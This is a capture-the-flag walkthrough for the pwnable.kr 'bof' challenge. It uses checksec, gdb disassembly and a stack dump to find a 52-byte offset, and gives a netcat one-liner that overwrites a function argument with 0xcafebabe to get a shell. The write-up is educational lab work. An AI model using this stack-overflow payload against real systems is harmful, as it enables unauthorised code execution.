 The binary has the following security properties:
```
uzi@pwnpatrol:$ checksec --file bof
[*] '/home/uzi/challenges/wargames/pwnable.kr/toddlers_bottle/bof/bof'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

The 0xcafebabe comparison is at func+40.
```
(gdb) disassemble func
Dump of assembler code for function func:
0x5655562c <+0>:     push   ebp
0x5655562d <+1>:     mov    ebp,esp
0x5655562f <+3>:     sub    esp,0x48
0x56555632 <+6>:     mov    eax,gs:0x14
0x56555638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
0x5655563b <+15>:    xor    eax,eax
0x5655563d <+17>:    mov    DWORD PTR [esp],0x78c
0x56555644 <+24>:    call   0x56555645 <func+25>
0x56555649 <+29>:    lea    eax,[ebp-0x2c]
0x5655564c <+32>:    mov    DWORD PTR [esp],eax
0x5655564f <+35>:    call   0x56555650 <func+36>
0x56555654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
```
Put a breakpoint there and run the application
```
(gdb) b *func +40
Breakpoint 1 at 0x56555654
(gdb) r <<< AABBCCDD
Starting program: /home/uzi/challenges/wargames/pwnable.kr/toddlers_bottle/bof/bof <<< AABBCCDD
overflow me :

Breakpoint 1, 0x56555654 in func ()
```
Dump the stack frame. ```ebp-0x48``` because, func allocated 0x48 bytes in stack via ```sub esp,0x48```
```
(gdb) x/24wx $ebp-0x48
0xffffcf40:     0xffffcf5c      0x00000000      0x00000000      0x7e9b3000
0xffffcf50:     0x00000009      0xffffd185      0xf7e184a9      0x42424141
0xffffcf60:     0x44444343      0xf7fc0000      0x00000001      0x5655549d
0xffffcf70:     0xf7fc03fc      0x00000000      0x56556ff4      0x7e9b3000
0xffffcf80:     0x00000000      0xf7e185db      0xffffcfa8      0x5655569f
0xffffcf90:     0xdeadbeef      0x00000000      0x565556b9      0x00000000
```
As seen above, we need 52 bytes till parameter to func.

Along with the script, challange can be solved with the following one-liner as well. After shell is opened, ```cat flag``` to get the flag
```
(python -c 'print("A"*52 + "\xbe\xba\xfe\xca")'; cat) | nc pwnable.kr 9000
```

